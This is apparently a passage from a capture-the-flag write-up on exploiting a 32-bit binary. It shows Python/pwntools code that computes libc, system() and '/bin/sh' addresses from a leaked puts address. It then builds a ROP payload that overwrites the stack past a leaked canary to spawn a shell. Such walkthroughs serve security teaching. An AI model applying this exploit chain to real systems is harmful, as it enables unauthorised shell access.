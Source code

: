 
we will select the first libc 


![symbols](./img/symbols.png)

now we can use these symbols 




Using the local libc ELF:

```python
libc_base = puts - 0x67560
system_addr = libc_base + 0x3cf10
binsh_addr = libc_base + 0x17b9db

print(f"[+] libc base: {hex(libc_base)}")
print(f"[+] system(): {hex(system_addr)}")
print(f"[+] /bin/sh: {hex(binsh_addr)}")
```

* `libc_base` is the start of libc in memory.
* `system_addr` is computed relative to `libc_base`.
* `binsh_addr` points to the string `"/bin/sh"` in libc.

---

5. **Constructing the Final ROP Chain** – to execute `system("/bin/sh")` and spawn a shell.

Construct the **final ROP chain**:

```python
p.recvuntil(b"What number would you like to guess?")
p.sendline(magic_number)   # trigger win() again

payload = (
    b"A"*512 +
    p32(canary) +
    b"A"*12 +
    p32(system_addr) +
    p32(elf.functions['win'].address) +
    p32(binsh_addr)
)

```

